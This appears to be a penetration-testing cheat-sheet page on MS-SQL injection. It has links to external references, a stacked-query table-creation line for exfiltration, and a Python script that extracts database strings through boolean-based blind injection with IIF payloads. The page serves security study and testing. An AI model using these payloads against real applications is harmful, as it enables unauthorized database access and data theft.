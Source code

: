 # MS-SQL Injection

## Cheatsheets

* [https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://www.perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Error Based SQL Injection

[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-\(mssql\).pdf](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-%28mssql%29.pdf)

## Stacked Queries

```text
CREATE TABLE exfil (line varchar(8000));

```

## Blind SQL Injection

### Boolean Based Blind

In the case of boolean based blind we can use the [IIF\(\)](https://docs.microsoft.com/en-us/sql/t-sql/functions/logical-functions-iif-transact-sql?view=sql-server-2017) function to extract data.  Say our injection point required an integer placed at a specific point such as:

```text
demo.asp?id=1
```

If we can't inject via stacked queries or other methods we can execute basic queries by utilizing the `IIF` Boolean result which is converted to an integer to guarantee execution.  This assumes a function `exploit` which returns a True or False response:

```python
def binary_search(payload):
	first = 0
	last = 127
	while first <= last:
		i = (first+last)/2
		eq = 'IIF({0}={1},1,1/0)'.format(payload,i)
		gt = 'IIF({0}<{1},1,1/0)'.format(payload,i)
		lt = 'IIF({0}>{1},1,1/0)'.format(payload,i)
		if exploit(eq) == True:
			return i
		elif exploit(gt) == True:
			last = i - 1
		elif exploit(lt) == True:
			first = i +1
		else:
			return 0

def leak_string(query, length=0):
	while True:
		payload = 'IIF(LEN({0})>{1},1,1/0)'.format(query, length)
        if exploit(payload) == False:
        	break
        length += 1
	print '[+] Length of {0}'.format(length)
	name = ''
	for i in range(1, length+1):
		print name
		name += chr(binary_search('ASCII(SUBSTRING({0},{1},1))'.format(query,i)))
	return name
```



